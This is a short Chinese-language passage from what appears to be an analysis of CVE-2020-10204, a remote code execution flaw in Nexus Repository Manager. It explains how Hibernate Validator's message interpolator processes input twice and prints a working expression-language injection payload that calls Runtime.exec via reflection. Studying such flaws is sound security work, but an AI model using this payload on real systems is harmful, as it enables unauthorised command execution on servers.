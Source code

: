 ![](resource/(CVE-2020-10204)NexusRepositoryManager远程执行代码漏洞/media/rId32.png)

还有一个问题为什么增加`\A`不会影响表达式的解析呢?

在`/org/hibernate/validator/hibernate-validator/6.1.0.Final/hibernate-validator-6.1.0.Final.jar!/org/hibernate/validator/messageinterpolation/AbstractMessageInterpolator.class`对传入的字符串进行了两次处理,

原本的字符串为`Missing roles: [$\B{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('touch /tmp/rce')}]`
